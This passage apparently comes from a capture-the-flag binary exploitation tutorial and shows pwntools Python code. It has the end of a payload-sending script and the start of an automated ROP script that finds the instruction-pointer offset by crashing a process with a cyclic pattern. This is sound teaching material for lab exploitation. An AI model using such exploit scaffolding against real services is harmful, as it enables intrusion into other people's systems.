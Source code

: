       # Save the payload to file
      write('payload', payload)
      
      # Send the payload
      io.sendlineafter(b':', payload)
      
      # Get flag
      io.interactive()
      ```
      
### 8.  Automated script that uses ROP 
      ```
      from pwn import *

      # Allows easy swapping betwen local/remote/debug modes
      def start(argv=[], *a, **kw):
          if args.GDB:  # Set GDBscript below
              return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
          elif args.REMOTE:  # ('server', 'port')
              return remote(sys.argv[1], sys.argv[2], *a, **kw)
          else:  # Run locally
              return process([exe] + argv, *a, **kw)
      
      def find_ip(payload):
          # Launch process and send payload
          p = process(exe)
          p.sendlineafter(b':', payload)
          # Wait for the process to crash
          p.wait()
          # Print out the address of EIP/RIP at the time of crashing
          ip_offset = cyclic_find(p.corefile.pc)  # x86
          # ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))  # x64
          info('located EIP/RIP offset at {a}'.format(a=ip_offset))
          return ip_offset
      
      # Specify your GDB script here for debugging
      gdbscript = '''
      init-pwndbg
      continue
      '''.format(**locals())
      
